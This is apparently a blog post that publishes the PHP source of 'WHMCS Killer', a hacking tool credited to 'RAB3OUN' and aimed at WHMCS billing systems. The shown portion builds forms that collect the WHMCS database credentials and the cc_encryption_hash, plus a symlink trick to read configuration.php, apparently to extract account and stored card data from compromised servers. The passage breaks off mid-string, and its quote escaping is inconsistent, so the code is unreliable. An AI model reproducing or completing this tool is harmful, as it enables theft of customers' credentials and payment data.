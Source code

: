 ```yaml
---
id: 24
title: WHMCS Killer source code
author: admin
layout: post
categories:
  - PHP
---
```



### WHMCS Killer source code

#### Coded By RAB3OUN


{% highlight php linenos %}
<?php function login(){echo("
<center>
<font color=\"#FFFF6FF" size="+3\">[ ~~ WHMCS Killer ~~ ]</font><br><br>

</center>
<br>
<center>

<font color="#0066FF\" size=\"+2\">DB configuration of WHMCS</font><br>
</center>
<FORM action=""  method="post\">
<input type=\"hidden\" name=\"form_action" value="1">
<br>
<table border=1>

<tr><td>db_host </td><td><input type=\"text\" size=\"60" name="db_host\" value="".$_COOKIE["db_host"].""></td></tr>
<tr><td>db_username </td><td><input type=\"text" size="60\" name=\"db_username\" value=\"".$_COOKIE["db_username"]."\"></td></tr>
<tr><td>db_password</td><td><input type=\"text\" size="60\" name="db_password\" value="".$_COOKIE["db_password"]."\"></td></tr>
<tr><td>db_name</td><td><input type=\"text\" size=\"60\" name="db_name\" value=\"".$_COOKIE["db_name"].""></td></tr>
<tr><td>cc_encryption_hash</td><td><input type="text" size=\"60" name=\"cc_encryption_hash" value="".$_COOKIE["cc_encryption_hash"]."\"></td></tr>


</table
<br>
<INPUT class=submit type="submit" value="Submit" name="Submit">
</FORM>


<font color="#0066FF" >Symlink to configuration.php of WHMCS</font><br>
</center>
<FORM action=\""  method="post\">
<input type=\"hidden" name="form_action\" value="2\">
<br>
 <input type=\"text" size="30\" name="file\" value="">
<br>
<INPUT class=submit type=\"submit\" value=\"Submit" name=\"Submit">
</FORM>

<hr>
<center> <font color=\"#FFFF6FF\" size=\"+1">   Coded By RAB3OUN v.b-4[@]hotmail.com    </font><br><br> <center>